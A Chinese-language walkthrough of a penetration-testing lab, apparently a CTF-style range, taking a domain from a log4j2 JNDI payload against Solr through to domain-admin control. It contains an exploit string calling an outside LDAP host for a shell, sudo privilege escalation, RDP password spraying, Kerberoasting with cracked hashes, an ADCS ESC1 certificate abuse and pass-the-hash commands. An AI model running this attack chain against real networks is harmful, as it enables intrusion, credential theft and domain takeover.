

# Flag1

拿到场景先用Fscan进行一波扫描

发现了公网的web机器存在solr服务


看到了log4j2


尝试用log4j2进行攻击

```
${jndi:ldap://47.93.248.221:1389/7iidgb}
```


收到了shell


目前死solr用户，权限比较低，来尝试一下提权



在suid中没看到什么提权的操作，不过grc有sudo权限，可以用来提权

```
sudo grc --pty /bin/sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


然后用python获取一个交互式的shell


拿到了第一个flag


# Flag2

用wget远程下载一个stowaway的客户端以及fscan


代理开在VPS的7777端口

```
nmap -sT -A -Pn 172.22.9.47
```

整理得到

```
172.22.9.7 XIAORANG-DC
172.22.9.19 已拿下
172.22.9.26 DESKTOP-CBKTVMO
172.22.9.47 fileserver 
```

这里应该还有个13是CA服务器，不知道为什么没扫到

发现了文件服务器，猜测可能有smb共享模式，fscan不扫描smb的共享模式，只能使用nmap扫描，这里我没有去上传nmap了

用smbclient登录文件服务器


并且在secret目录下找到了flag2


打开这个db文件


有一堆用户名和不同的密码，保存下来密钥喷洒，我们尝试用这里的密钥喷洒26这台域内的PC

```
hydra -L user.txt -P pass.txt 172.22.9.26 rdp
```

最后会得到两个密码

```
zhangjian:i9XDE02pLVf
liupeng:fiAzGwEMgTY
```

但是都登录不上

# Flag3&Flag4

在flag2中提到了SPN，那既然得到了两个域账户，可以来查找其SPN

```
GetUserSPNs.py -request -dc-ip 172.22.9.7 xiaorang.lab/zhangjian:i9XDE02pLVf
```


得到了chenchen和zhangxia的密码哈希，hashcat爆一下

```
$krb5tgs$23$*zhangxia$XIAORANG.LAB$xiaorang.lab/zhangxia*$232f93a5ef32a1a3f9954a3c29d180d8$5ca05884e9c1968521f108a5f2557ee450b102c5cfa44b3d7f93691c42a2d6ec3a307318ecf8895fbaeaa77d7b8d704286eecc40d65cfbe4032805e71838444ed1e50985b7dfb4b35c06ecaa377b37b78f27a4003c3d0cb2461f15c20ee91a16548ce973498493edec52f9a90b4110a81d1c63c17f7f453183993f5ee8f776d117fc92bf342bcb237acaf05e231a879ab03be2cca726849ed80b5116d45253872d3e6e595f7147d0cf3e2c4a6fbbdec069c00f1ac76518929de28fc8510cc1d842c998afb0a470c4f99e5b5f14ba631b061f8c66b4d36bbc1fb81fa7676cd02db70bf685cdfa00109b83154a2743d2158dc66fe11d5a83dfd4885adbe884ccf34a36af432639fc0f2642de0780cfcf29bb43a10cb43720b03fc38e9234949225676c34b8fff6a9e4292ffb7c1f3e5a47c200e000869173d154dbb05034f4e5754547afcf6ef31d159eb6f46df61316442130e09716e0f455dc1a9f1eb30b76300c2ee9112d62b17a17ed1345c00eebad3e47a41468d386b535d03f5d695b4c4d90c1101785ea74bc5bc4e34ce5a82a55447e60fb58884c70086b8a8efaad6111f191e2edd2dfea2e27ffbb89de487eb4c15e6014b99bb479ebeea57e197d48f459689c51dae25d9a1c4664cb93f7edff351ec36efbc9ee165aeb797326618b0738ac5089a2ef6b583073638e2c613d9a7387cfe62357dff3994e24807b3af535b15e530f9372de244bed87adb448249d4c3bf8941f79aefa2b3da470cc936d0936d81ee71a3ba220643025753bd0b3785004a6277f36ea9a7aa361b4ddfefec8f940530ca1c70b698dc5556e371a37d944f574f48da4e19a826686a120ad71db0aa3966ce6c60316f51b8e04dcc5893adf27458ab605e7d1582c9e9b5234231acb217f86054c98e34226c1c29ca226ace5d92421551e667d5d6c60874041886677a5b391da78aafe38689e3a8299aa5868eba0f79ef28e32cd80936e18b7e6662a579ee810b4843e1c517da6bb7c1fc0468973637e39757df93fd67b520ba6fd7915323d49d7961bcf9136b1c3c71377abcca7ef12c3252e5dcf77a1faf9e7dd8662e359bbdc7441f1ce26debd352945fd89ca11ea066736fefc32bf5c3348a89aaa58d788e388cca14a3310fcb632550092d03e47e31715280daea34f15e4a162be6daec54789084ea30e66c56fdd3be59bf3263f49dca4338fba3fec4008539ad7334627fc5c104684c5e6249c2f302e864ce1f859df5cdc69f9bccae3c57a6caeeab9930ca21cae90b83d44b4e0773b5ddc646198c793dec5001eda95ceb7f85260bfb4edaa7944af0dd1b8593da46cf0a71eab20fc08d16f6c6d89464e590fe53561e4bc0183ac44386b60fccf4def326f1045a04fc4f4c9aafdf10396607543c636412b1f485b95492fb33751796b72341e937d927ae0b9a4865159efdacf029e7bc2f619c2311d939ce64a7f149fd38f6a0e17e3cc04cc002567ebe7a62fb35d1858f4c4433d80af77a63c
$krb5tgs$23$*chenchen$XIAORANG.LAB$xiaorang.lab/chenchen*$da789154588b5ea6c73281d56d80092c$48f5df0ecbcabcb136530c072eb55abd6d85e933f9393781bfd4c3eea7ccb19966540eab82de454b798b58b49c1a9b4cc1eb7863df5c5aa80165ec194ba907bfcb44f3543eee1a679c7cf6cf6d1af25b5d8f9f3c679e4a9d8aa88c0729a6759bee4a34f906009d6f7a0b127da9231be93ed28bf15d336f338ecd46999aa18c513daeeed2517d078bb68ff4269d031695bfc97817e1d51db9de7a55180d407b3f25acc25d641e48b31da607a01e786b23ecf0422a2dd538f714d79b37a9c95c7d403df6299400d073d7355938d4717ae62f39da1afb04ecd85503f009017552280c01fec6334d99193637cd3d288c8ec8a68483e30221108f53441ed9246ee131960b3fb733db9c3ac3c707f802ad51c683bc6fe80736c9b1131a22130c0078de35772ac11dc7c3c234e2018f02ce3b3b5bb93a73a5aa48b87292e6154facee046f46391dc780972745da55cc5a118930c04f8c2c29bd6ca8360b194547eccd39086e3a94e2b61b6e2e72f589a1a8acba9e2d3b4a6015a67225f130119d8cc0bcc13f9b7cf6e1f2edd2e76b47356d1c644fffcf0f0a8f457b5dcfcb232898fa09674d22e16586f77296297ae59c05684c37f1af5c66fef86f041426b20b1906aa0a0417c48a29be52c7581b4f5cb3918180c77409faa507551e074aa59d96e887657e9bb67357c7998a95adf2370130d682c7e2b3c84dd8e1dfc0dbe29c576994614a042a1e7348c693adb4fdfb6067dc165b6ebab6c0ec6af490ba921501c5513f1d74431cac20d7e01292f326ee2f2ce3c7aba1e4680f5cb60564bc6d93bf70e1bd406f66ce478e5557559247f608064cd455981ec74a82c4534e164c27885bd009fa042818d61457e9f3e42935cd5d4e51c8ed7b9a62ac76c3b6601e28a23274cb029de3e56fafe536650d3a60af65741cfe9bcbec9922c0bee6bd76cd606c932d5b71c6474577c7ff9a11e9cdb6ef3034e866fe5b23fb74f96b5c4b7209edf9b572f81ae117020c6077f5c274ba414760361fdaa05e9129e86c91ac55137ba18b847e3160b61662ddf70f2a56db1a981c116ab1adeaf6db769b15bf75defdb95f2f0774c6f2c0b7228430036d8fa3ec6a739e418b86c01041c1a1d8c215e53ba6525f52564fdfcfc855d15c5edda7354eded9a64742123aebbf3f2c05cd25fcf1e5a028cfa1c97ce5ca3d63c3f97e27b1b35f6816352a8a6d9f119b31eed4a87a5d2491ab91aee6f1abc132c873518104e5d6915157afad31206531f119bbf909965f85ca7308f2972d33961784d7e7b2c7dffcd5c1bd4c4a388753d5bc193f67dd7a7543bb30150729f18fb55eb8b22cb6c243b73c5ff81cbce865da6eacdd64c3373ff030654a4ce6f2554988eddf397ba237a92583b268e254ebdd52d7403cbd034476910d9166686b7041efd1860088893100adead27e6af98bebcfce844926582acb74bee4f99fc22ff6b9b99d0eb764eaa4160c21167f96e4a80c1185fc2df57b0f3d943960041e4d64
```

```
hashcat -m 13100 1.txt rockyou.txt
```


得到了密码

```
zhangxia MyPass2@@6
chenchen @Passw0rd@
```


成功登录进来了，没有管理员权限，访问不到administrator下的flag

题目说到说到了ADCS攻击，用Certify.exe定位一下漏洞

```
Certify.exe find /vulnerable
```


ESC1利用前提条件：
msPKI-Certificates-Name-Flag: ENROLLEE_SUPPLIES_SUBJECT
表示基于此证书模板申请新证书的用户可以为其他用户申请证书，即任何用户，包括域管理员用户
PkiExtendedKeyUsage: Client Authentication
表示将基于此证书模板生成的证书可用于对 Active Directory 中的计算机进行身份验证
Enrollment Rights: NT Authority\Authenticated Users
表示允许 Active Directory 中任何经过身份验证的用户请求基于此证书模板生成的新证书

或者用certipy工具

```
certipy find -u 'liupeng@xiaorang.lab'  -password 'fiAzGwEMgTY' -dc-ip 172.22.9.7 -vulnerable -stdout
```


发现了ESC1

首先利用XR Manager模板为域管请求证书

```
certipy req -u 'liupeng@xiaorang.lab' -p 'fiAzGwEMgTY' -target 172.22.9.7 -dc-ip 172.22.9.7 -ca "xiaorang-XIAORANG-DC-CA" -template 'XR Manager'  -upn administrator@xiaorang.lab
```

接着转换格式，请求TGT，DCSync或者PTT

```
certipy auth -pfx administrator.pfx -dc-ip 172.22.9.7
```


拿到administrator的hash

```
aad3b435b51404eeaad3b435b51404ee:2f1b57eefb2d152196836b0516abea80
```

直接pth登录两台机器

```
python3 wmiexec.py -hashes :2f1b57eefb2d152196836b0516abea80 xiaorang.lab/Administrator@172.22.9.26 -codec gbk
python3 wmiexec.py -hashes :2f1b57eefb2d152196836b0516abea80 xiaorang.lab/Administrator@172.22.9.7 -codec gbk
```


参考链接：

https://xz.aliyun.com/t/12117

https://fushuling.com/index.php/2023/10/06/%E6%98%A5%E7%A7%8B%E4%BA%91%E5%A2%83%C2%B7certify/

https://www.cnblogs.com/fdxsec/p/17973370

https://xz.aliyun.com/t/14729